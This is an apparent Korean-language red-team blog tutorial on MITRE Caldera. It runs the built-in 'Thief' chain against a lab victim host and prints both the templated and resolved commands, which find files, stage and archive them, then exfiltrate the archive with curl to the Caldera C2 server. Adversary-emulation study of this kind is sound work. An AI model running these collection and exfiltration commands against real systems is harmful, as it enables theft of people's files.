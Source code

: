 ```yaml
---
title: Usage of Caldera
author: Jeongwon
date: 2025-02-21 16:04:00 +0900
categories: [Career, RedTeam]
tags: [writing]
render_with_liquid: false
---
```

## Caldera

###### `REF` : [DOCS](https://caldera.readthedocs.io/en/latest/) | [YOUTUBE](https://www.youtube.com/playlist?list=PLF2bj1pw7-ZvLTjIwSaTXNLN2D2yx-wXH) | [BLOG](https://medium.com/@mitrecaldera/welcome-to-the-official-mitre-caldera-blog-page-f34c2cdfef09) | [WEB](https://caldera.mitre.org/)

---
## Overview

### Campaigns/Agents
Victim host를 생성하고 관리합니다.

### Campaigns/Abilities
Caldera Server가 Victim host에게 수행할 수 있는 공격 전술입니다.

### Campaigns/Adversaries
`Abilities`의 공격 전술을 Chaining할 수 있습니다.

### Campaigns/Operation
`Adversaries`의 Attack Chain을 Victim host에게 실행합니다.

---
## Attack Test

![image](assets/img/usage-of-caldera/agent_create.png)
- `Campaigns/Agents`에서 Victim host를 생성합니다.
    - 저는 Sandcat을 사용하였고, Linux 환경의 Victim host를 택하였습니다.
    - `app.contact.http`의 IP 자리에 Caldera server의 IP를 넣어줍니다.
    - 입력을 마친 후 하단 명령어를 Victim host의 Terminal에서 실행해줍니다.

![image](assets/img/usage-of-caldera/operation_exec.png)
- `Campaigns/Operation`에서 실행할 Attack Chain을 `Campaigns/Adversaries`에서 선택합니다.
    - 예시로 생성되어있던 `Thief`를 실행해 보았습니다.

![image](assets/img/usage-of-caldera/adversaries_thief.png)
- `Campaigns/Adversaries`의 `Thief` Attack Chain입니다.

```bash
# T1074.001 : Data Staged: Local Data Staging
mkdir -p staged && echo $PWD/staged

# T1005 : Data from Local System
# plugins.stockpile.app.parsers.basic
find / -name '*.#{file.sensitive.extension}' -type f -not -path '*/\.*' -size -500k 2>/dev/null | head -5

# T1074.001 : Data Staged: Local Data Staging
# plugins.stockpile.app.requirements.paw_provenance
cp #{host.file.path[filters(technique=T1005,max=3)]} #{host.dir.staged[filters(max=1)]}

# T1560.001 : Archive Collected Data: Archive via Utility
# plugins.stockpile.app.requirements.paw_provenance
tar -P -zcf #{host.dir.staged}.tar.gz #{host.dir.staged} && echo #{host.dir.staged}.tar.gz

# T1041 : Exfiltration Over C2 Channel
# plugins.stockpile.app.requirements.paw_provenance
curl -F "data=@#{host.dir.compress}" --header "X-Request-ID: `hostname`-#{paw}" #{server}/file/upload
```

- 위와 같은 Chain이 Victim host를 대상으로 실행됩니다.
  - 각각의 Abilities에서 적용될 변수들은 `Configuration/Fact Sources`에서 확인할 수 있습니다.

```bash
mkdir -p staged && echo $PWD/staged
find / -name '*.png' -type f -not -path '*/\.*' -size -500k 2>/dev/null | head -5
find / -name '*.yml' -type f -not -path '*/\.*' -size -500k 2>/dev/null | head -5
find / -name '*.wav' -type f -not -path '*/\.*' -size -500k 2>/dev/null | head -5
cp /usr/lib/python3/dist-packages/mpl_toolkits/tests/baseline_images/test_axisartist_axislines/Subplot.png /home/biz-jeongwon/staged
cp /Docker/host/tile-icon.png /home/biz-jeongwon/staged
cp /Docker/host/tile-error.png /home/biz-jeongwon/staged
tar -P -zcf /home/biz-jeongwon/staged.tar.gz /home/biz-jeongwon/staged && echo /home/biz-jeongwon/staged.tar.gz
curl -F "data=@/home/biz-jeongwon/staged.tar.gz" --header "X-Request-ID: `hostname`-antixm" http://[Caldera Server IP]:8888/file/upload
```

- 실제 실행되는 Attack Chain의 Command line입니다.
  - Victim host에 staging directory를 생성하고, sensitive file을 해당 directory에 옮긴 후, 압축하여 C2 server(Caldera server)로 curl을 통해 보냅니다.

![image](assets/img/usage-of-caldera/exfill_file.png)
- `Configuration/Exfilled Files`에서 Victim host로부터 훔친 파일을 확인할 수 있습니다.
 


 






 




